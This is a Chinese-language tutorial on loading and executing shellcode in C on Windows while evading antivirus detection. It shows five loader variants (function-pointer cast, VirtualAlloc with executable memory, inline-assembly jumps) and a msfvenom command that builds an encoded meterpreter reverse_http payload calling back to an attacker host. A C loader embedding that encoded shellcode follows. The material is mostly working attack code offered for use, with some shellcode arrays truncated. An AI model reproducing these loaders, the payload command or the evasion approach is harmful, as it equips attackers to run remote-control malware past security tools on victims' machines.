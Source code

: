 # 0x00 C加载shellcode

c语言加载shellcode非常方便，C/C++好用是好用就是头有点凉快。以下加载方法均来自网络



第一种


```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char shellcode[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57";

void main()
{
	((void(*)(void))&shellcode)();
}

```


第二种


```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char shellcode[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57";

void main()
{
	    PVOID p = NULL;

               if((p = VirtualAlloc(NULL,sizeof(shellcode),MEM_COMMIT|MEM_RESERVE,PAGE_EXECUTE_READWRITE)) == NULL)

                               MessageBox(NULL,"VirtuallAlloc Failed!!!","Prompt",MB_OK);

               if(!(memcpy(p,shellcode,sizeof(shellcode))))

                               MessageBox(NULL,"WriteMemory Failed!!!","Prompt",MB_OK);

               CODE code = (CODE)p;  

               code();  
}
```


第三种


```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char shellcode[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57";

void main()
{
               __asm

               {  

                               lea eax,shellcode;  

                               jmp eax;  

               }  
}


```


第四种


```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char shellcode[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57";

void main()
{
	  __asm  

               {  

                               mov eax,offset shellcode;  

                               jmp eax;

               }  
}

```


第五种


```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char shellcode[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57";

void main()
{
	               __asm

               {

                               mov eax,offset shellcode;

                               _emit 0xFF;

                               _emit 0xE0;

               } 
}

```

这都是基本加载方法基本已经不过了但是还是提一下, AV 检测中 shellcode 是可以载入内存的,但是不能去执行,执行就会判断为恶意程序也就是我们可以把
它分成2个部分。

1. shellcode 特征

2. 执行shellcode

简单的举个例子

```
#include <windows.h>
#include <stdio.h>

unsigned char shellcode[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57";

unsigned char noshellcode[] = "";

void main()
{
  ((void(*)(void))&noshellcode)();
}


```

这个程序它不会判断为恶意程序,因为我们根本没去执行它,如何免杀呢,我们可以把shellcode加密,然后再解密运行,或者用其他方式来调用它。



![Cobalt Strike ](./img/2.1.2.png)


# 0x01 配合msf shellcode

MSF框架自带了很多加密方式，在msf5中又添加了更多的加密方式，有兴趣的朋友可以试试，我们知道msf的通讯和cs的通讯协议相通的，所以我们用msf生成shellcode来执行

```
msfvenom -p windows/meterpreter/reverse_http -a x86 --platform win LHOST=192.168.130.130 LPORT=8090 -e x86/shikata_ga_nai -i 20 -b '\x00\' -f c >/root/shellcode.c
```

生成我们的shellcode 这里我用的vs 2013 

```
#include "windows.h"  
#include "stdio.h"  

//#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")//不显示窗口  
//#pragma comment(linker,"/MERGE:.rdata=.text /MERGE:.data=.text /SECTION:.text,EWR")//减小编译体积  
//shellcode在生成payload时选择c即可  

unsigned char shellcode[] =
"\xdb\xdf\xd9\x74\x24\xf4\xba\x82\x82\xc5\x6d\x5d\x31\xc9\xb1"
"\xf3\x83\xed\xfc\x31\x55\x16\x03\x55\x16\xe2\x77\x59\x1c\xb4"
"\x03\x7a\x6b\x1a\x51\x0c\x39\x76\x49\x22\xf7\xc8\x7c\x74\x52"
"\x3c\xfd\x9a\xa0\x41\xda\xdc\x68\x5f\x85\x72\x3c\x1a\x85\xdd"
"\x30\xf5\x5b\xad\xc3\xc8\xac\x6a\xea\x17\x5e\xca\x27\xcf\x3a"

void main()
{
	LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(Memory, shellcode, sizeof(shellcode));
	((void(*)())Memory)();
}
```

其实就是个免杀msf shellcode 只是引用一个思路，为什么要讲这个呢，这就是利用编码器编码shellcode来免杀，但是这些特征已被入库。


![Cobalt Strike ](./img/2.1.1.png)


# 0x02 文末

自己写把CS的shellcode 拿来加密下 在运行也是可行的，但是都是表面免杀，主动还是有问题 。

### 本文如有错误，请及时提醒，以免误导他人